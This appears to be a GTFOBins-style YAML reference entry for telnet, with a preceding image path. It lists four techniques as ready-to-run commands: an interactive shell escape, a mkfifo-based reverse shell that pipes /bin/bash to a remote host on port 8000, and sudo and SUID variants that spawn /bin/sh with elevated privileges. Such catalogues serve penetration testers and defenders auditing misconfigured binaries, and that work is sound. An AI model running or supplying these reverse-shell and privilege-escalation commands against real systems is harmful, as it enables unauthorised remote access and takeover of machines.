 ```yaml
---
functions:
  exec-interactive:
    - description: BSD version only.
      code: |
        RHOST=www.google.com
        RPORT=80
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
  sudo-enabled:
    - description: BSD version only.
      code: |
        RHOST=www.google.com
        RPORT=80
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  suid-limited:
    - description: BSD version only.
      code: |
        RHOST=www.google.com
        RPORT=80
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
      
---
```

